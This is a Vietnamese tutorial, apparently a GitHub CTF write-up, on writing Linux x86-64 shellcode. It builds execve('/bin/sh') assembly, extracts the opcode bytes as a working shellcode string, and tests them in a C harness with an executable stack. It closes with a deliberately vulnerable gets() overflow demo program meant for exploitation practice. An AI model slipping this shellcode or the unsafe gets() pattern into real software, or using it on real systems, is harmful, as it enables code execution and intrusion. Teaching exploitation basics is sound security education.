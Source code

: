 # Shellcoding (Linux)
Khái niệm về shellcode có rất nhiều bài viết định nghĩa về nó, nên mình sẽ đề cập lại ở đây .Các bạn có thẻ tham khảo 1 số bài viết:
- https://vnhacker.blogspot.com/2006/12/shellcode-thn-chng-nhp-mn.html
- https://en.wikipedia.org/wiki/Shellcode

Tiếp theo mình sẽ nói về cách viết 1 shellcode cơ bản, cụ thể ở đây là 1 shellcode thực thi việc lên shell. Việc lên shell ở đây bản chất là ta sử dụng syscall execve("/bin/sh", NULL, NULL). Syscall là gì thì mình có giải thích qua ở bài viết về ROP bạn có thể tham khảo ở đây:
- https://github.com/shawking2/Writeup/tree/main/ROP

Để Shellcode có thể thực thi trong chương trình thì ta cần 1 số điều kiện cơ bản:

\+ Vùng nhớ ta đặt shellcode phải có quyền execute 
\+ Instruction call địa chỉ mà ta trữ shellcode đó. Khi đó shellcode sẽ được thực thi.
\+ Instruction ret về địa chỉ chú shellcode
\+ Lệnh nhảy về địa chỉ chứ shellcode của ta
\+ Mình chỉ liệt kê cách cách thực thi shellcode thường gặp mà mình thấy (vẫn còn nhiều trường hợp khác)

Để viết một shellcode sử dụng syscall execve("/bin/sh", NULL, NULL). Đầu tiên ta phải viết 1 chương trình assembly call syscall exceve("/bin/sh", NULL, NULL):
```
section .text
  global _start
    _start:
      push rax                    
      mov rbx,'/bin//sh'            # cho rbx chứa chuỗi "/bin/sh"
      xor rsi, rsi                  # rsi = NULL tham số thứ thứ 3 của exceve
      xor rdx, rdx                  # rdx = NULL tham số thứ thứ 3 của exceve
      push rbx                      # push chuỗi '/bin/sh' vào stack. Điều ngày có nghĩa rsp đang mang giá trị là địa chỉ của chuỗi '/bin/sh' 
      push rsp                      # push giá trị của rsp -> địa chỉ của '/bin/sh'
      pop rdi                       # rbx sẽ chứa đối số đầu tiên của excecve  -> "/bin/sh"
      mov al, 0x3b                  # syscall number của exceve
      syscall
```
Để biên dịch nó ta sẽ đưa đoạn code này lưu vào 1 file .asm .Sau dó dùng các lệnh sau để biên dịch:

> nasm -f elf64 shellcode.asm -o shellcode.o

> ld shellcode.o -o shellcode

Thao tác vừa rồi, ta vừa biên dịch đoạn code asm thành file binary:
```
higgs@DESKTOP-PMDB9KR:~$ ./shellcode
$ whoami
shawking
$
```
Run file này ta có thể thấy t đã hoàn thành việc lên shell nhờ gọi syscall exceve("/bin/sh", NULL, NULL).

Vậy thì tiếp theo làm sao ta tạo ra 1 shellcode .Nếu các bạn đã đọc qua cái bài viết ở trên thì bạn sẽ biết rằng shellcode chính là các byte code. Byte code ở đây thức chất chính là các opcode của các instruction trong chương trình ta vừa viết. Vậy để có được shellcode ta chỉ cần xem opcode của nó.

Công cụ objdump sẽ giúp ta điều này:
```
higgs@DESKTOP-PMDB9KR:~$ objdump --disassemble test

test:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <_start>:
  401000:       50                      push   %rax
  401001:       48 31 d2                xor    %rdx,%rdx
  401004:       48 31 f6                xor    %rsi,%rsi
  401007:       48 bb 2f 62 69 6e 2f    movabs $0x68732f2f6e69622f,%rbx
  40100e:       2f 73 68
  401011:       53                      push   %rbx
  401012:       54                      push   %rsp
  401013:       5f                      pop    %rdi
  401014:       b0 3b                   mov    $0x3b,%al
  401016:       0f 05                   syscall
```
Các bạn quan sát sẽ thấy có 1 cột hiện thị mã hex:

![screenshot](https://github.com/shawking2/Writeup/blob/main/ShellCode/img/opcode.PNG)
Xâu chuỗi các mã hex lại theo thú tự như trên ta có 1 chuỗi shellcode thực thi exceve("/bin/sh",NULL, NULL)
> SHELLCODE: 
```
\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05
```
Ta có thể viết 1 đoạn code c đẻ kiểm tra shellcode của chúng ta (lưu ý ta phải thêm tham số -z execstack để có quyền execute trên stack)
```
#include <stdio.h>


main()
{
    unsigned char shellcode[] = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05";
    int (*ret)() = (int(*)())shellcode;
    ret();
}
```
Biên dịch :  gcc -z execstack -o shell shell.c
Kết quả thực thi:
```
higgs@DESKTOP-PMDB9KR:~$ gcc -z execstack -o test test.c
test.c:4:1: warning: return type defaults to ‘int’ [-Wimplicit-int]
    4 | main()
      | ^~~~
higgs@DESKTOP-PMDB9KR:~$ ./test
$ whoami
shawking
$
```
Phân tích assembly của chương trình trên sẽ hiệu tại sao shellcode được thực thi:
```
   0x555555555129 <main+4>             sub    rsp, 0x10
   0x55555555512d <main+8>             lea    rax, qword ptr [rip + 0x2efc] <0x555555558030>
   0x555555555134 <main+15>            mov    qword ptr [rbp - 8], rax
   0x555555555138 <main+19>            mov    rdx, qword ptr [rbp - 8]
   0x55555555513c <main+23>            mov    eax, 0
 ► 0x555555555141 <main+28>            call   rdx <shellcode>
        rdi: 0x1
        rsi: 0x7fffffffdff8 —▸ 0x7fffffffe207 ◂— '/home/higgs/test'
        rdx: 0x555555558030 (shellcode) ◂— push   rax /* 0x48f63148d2314850 */
        rcx: 0x7ffff7fac718 (__exit_funcs) —▸ 0x7ffff7faeb00 (initial) ◂— 0

   0x555555555143 <main+30>            mov    eax, 0
   0x555555555148 <main+35>            leave
   0x555555555149 <main+36>            ret
```
Tại đây instruction call sẽ call địa chỉ chứa shellcode của chúng ta. Khi đó shellcode sẽ được thi.
> Challenge demo:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

// gcc -z execstack -o demo demo.c -no-pie
int main(void)
{
  char buffer[32];
  printf("DEBUG: %p\n", buffer);
  gets(buffer);
}
```
### File binary: [demo](https://github.com/shawking2/Writeup/blob/main/ShellCode/src/demo?raw=true)







